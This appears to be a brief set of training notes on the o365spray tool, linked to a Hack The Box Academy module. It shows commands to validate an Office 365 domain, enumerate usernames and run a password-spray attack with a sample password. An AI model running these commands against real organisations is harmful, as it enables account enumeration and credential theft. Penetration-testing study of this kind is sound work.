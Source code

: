 O365spray
##########

Date: 2024-11-30 15:01

Status:

Installation
************

.. code-block:: console

   git clone https://github.com/0xZDH/o365spray

Usage
******
Example 1: Validate if target is using O365

.. code-block:: console


   python3 o365spray.py --validate --domain msplaintext.xyz

Example 2: identify usernames

.. code-block:: console

   python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz

Example 3: Password Spray attack #password_spray

.. code-block:: console

   python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

References
***********
https://academy.hackthebox.com/module/116/section/1173
